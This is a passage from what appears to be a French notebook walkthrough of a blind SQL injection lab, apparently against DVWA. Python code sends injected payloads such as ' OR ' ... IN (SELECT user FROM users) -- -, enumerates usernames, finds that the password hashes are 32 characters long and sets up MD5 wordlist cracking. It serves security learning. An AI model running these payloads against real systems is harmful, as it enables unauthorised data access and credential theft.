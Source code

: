     [FOUND] =  admin
    [FOUND] =  brown
    [FOUND] =  smith
    [FOUND] =  picasso
    [FOUND] =  me
    ['admin', 'brown', 'smith', 'picasso', 'me']


#### 5.3 Info de la colonne user


```python
wordlist_user = "wordlist/username.txt"
sql_start = "' OR '"
sql_end = "' IN (SELECT user FROM users) -- -"

list_of_user = send_request_with_wordlist(wordlist_user, sql_start, sql_end)
print(list_of_user)
```

    [FOUND] =  admin
    [FOUND] =  Pablo
    ['admin', 'Pablo']


#### 5.4 Info de la colonne password

##### 5.4.1 Essayons de voir si les mots de passe sont hashés ou non.
Pour cela nous allons vérifier la taille des mots de passe. Si tous les mots de passe ont la même taille, alors ils sont hashés.


```python
for i in range(0, 100): 
    id_param = "' OR "+str(i)+ " IN (SELECT LENGTH(password) FROM users)  -- -"
    params = {
        'id': id_param,
        'Submit': 'Submit',
    }
    response = requests.get(url,params=params,cookies=cookies,headers=headers)
    if response.status_code == 200:
        print("[PASSWORD.LENGTH.FOUND] = ", i)
```

    [PASSWORD.LENGTH.FOUND] =  32


Tous les mots de passe semblent avoir la même taille : 32. Donc on peut en déduire qu'ils sont hashés.

Et 32 nous fait pensé à MD5. Donc "brute force"

##### 5.4.2 Essayons de casser les mots de passe avec une wordlist ./wordlist/passwords.txt


```python
import hashlib

def hash_md5(chaine):
    chaine_bytes = chaine.encode('utf-8')
    
    h = hashlib.md5()
    h.update(chaine_bytes)
    hash_md5 = h.hexdigest()
    
    return hash_md5
```
